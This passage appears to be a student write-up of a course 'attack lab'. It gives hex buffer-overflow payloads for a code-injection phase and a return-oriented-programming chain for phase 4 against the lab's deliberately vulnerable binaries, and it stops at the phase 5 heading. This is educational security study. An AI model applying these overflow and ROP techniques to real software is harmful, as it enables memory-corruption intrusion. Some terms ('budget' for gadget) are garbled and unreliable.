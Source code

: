 ```c++
 {
 vlevel = 3; /* Part of validation protocol */
 if (hexmatch(cookie, sval)) {
 printf("Touch3!: You called touch3(\"%s\")\n", sval);
 validate(3);
 } else {
 printf("Misfire: You called touch3(\"%s\")\n", sval);
 fail(3);
 }
 exit(0);
 }
```
What we passed to touch3 is a pointer pointed to the string presentation of our cookie (for me is "59b997fa"). So we have to store the string, string address, touch3's address.

Let's look at the solution.
```
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
a8 dc 61 55 00 00 00 00 
48 c7 c7 b8 dc 61 55 	/* mov    $0x5561dcb8,%rdi */
68 fa 18 40 00       	/* pushq  $0x4018fa */
c3 90 90 90             /* retq   */
35 39 62 39 39 37 66 61 /* "59b997fa" */
```
Still, we store the string on the stack and pass its address to %rdi, then we return to touch3.

## rtarget

rtarget use the stack randomization and executable code area limitation mechanism to protect the program. Therefore we cannot use code-injection attack. Here the ROP attack comes up. ROP attack is a method that you use the code segment existing in the program to attack itself. each code segment is a conbination of an common instruction and **ret** instruction like below.
```
48 89 c7               /* mov %rax,%rdi */ 
c3                     /* retq          */ 
```
We call code segment above as a budget. In this example, we need to find an existing code segment ***48 89 c7 c3*** and store its address on stack. When we put several budgets' address on stack, they can do the chain dump and execute each budget. Rtarget contain a section we call farm in which we can get the gadgets we need.

### phase 4

The forth injection is to call touch2 by ROP attack in rtarget.

Let's look at the solution.
```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
ab 19 40 00 00 00 00 00 /* addval_219: pop %rax;ret */
fa 97 b9 59 00 00 00 00 /*    cookie:0x59b997fa     */
c5 19 40 00 00 00 00 00 /* setval_426: mov %rax,%rdi;ret */
ec 17 40 00 00 00 00 00 /* address of touch2        */
```
### phase 5